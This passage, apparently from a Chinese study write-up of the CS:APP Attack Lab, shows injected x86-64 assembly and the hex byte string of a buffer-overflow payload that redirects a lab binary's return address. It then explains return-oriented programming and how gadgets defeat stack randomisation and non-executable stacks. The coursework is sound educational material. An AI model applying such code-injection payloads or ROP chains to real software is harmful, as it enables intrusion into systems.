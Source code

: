 5. 所以我们注入的代码为：

   ```assembly
   movq $0x5561dca8,%rdi
   pushq $0x4018fa
   ret
   ```

   将上面的汇编代码保存为`p3.s`，使用`gcc -c p3.s`将它编译为字节码文件`p3.o`，再使用 `objdump -d p3.o`检查它的反汇编代码。

   <img src="https://raw.githubusercontent.com/BoL0150/image2/master/image-20210722121726814.png" alt="image-20210722121726814" style="zoom:67%;" />

所以我们注入可执行的机器码为：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

其中最后一行，最左边是字符串的起始地址，所以最左边是最高位。

![image-20210722124119586](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210722124119586.png)

字符串和数字（或者其他的任何东西）在机器中都是用二进制表示的，决定它的意义的是它在高级语言中的翻译方式。比如字符串是先将它翻译成对应的ASCII码，再将ASCII码变成二进制存储在内存中。对于内存中的这一串二进制，在c语言中，如果使用%s输出，那么就是将它翻译为字符串（二进制ASCII码转换成对应的字符）。如果使用%d输出，那么就是一串数字。

## ROP

除了缓冲区溢出，还有另一种攻击的方式，称为返回导向编程。

在栈随机化、栈的不可执行属性以及canary三种技术中，唯独不能破解canary。ROP就是用来破解前两种技术的。

返回导向编程（ROP）可以利用修改已有的代码，来绕过系统和编译器的保护机制，攻击者**控制堆栈调用以劫持程序控制流**并执行针对性的**机器语言指令序列（称为Gadgets）**。**每一段 gadget 通常结束于 return 指令（编码为c3）**，并位于共享库代码中的子程序。

栈随机化和栈不可执行使得攻击者难以预测缓冲区的位置以及难以插入代码，插入了也无法执行。ROP的策略就是：我无法知道栈在哪里，但是可以知道全局变量和代码在哪，可以使用机器中已经存在的**可执行**代码，重新组合成我们想要的结果。此方法无法破解canary。

从Gadget构造程序的条件：

- 一系列以ret结尾的指令
- 每次运行程序，代码的位置都是固定的
- 代码是可执行的

<img src="https://raw.githubusercontent.com/BoL0150/image2/master/image-20210716111006650.png" alt="image-20210716111006650" style="zoom:67%;" />

使用机器中已经存在的**可执行**代码（Gadget），重新组合成我们想要的结果。将这些Gadget的地址按照执行的顺序逆序压入栈中，每个Gadget由ret结尾，所以每个Gadget执行结束后，ret指令让栈顶的值pop到%rip中，就可以顺着执行栈中的下一条Gadget。

<img src="https://raw.githubusercontent.com/BoL0150/image2/master/14554587074206.jpg" alt="img" style="zoom: 80%;" />

**示例**
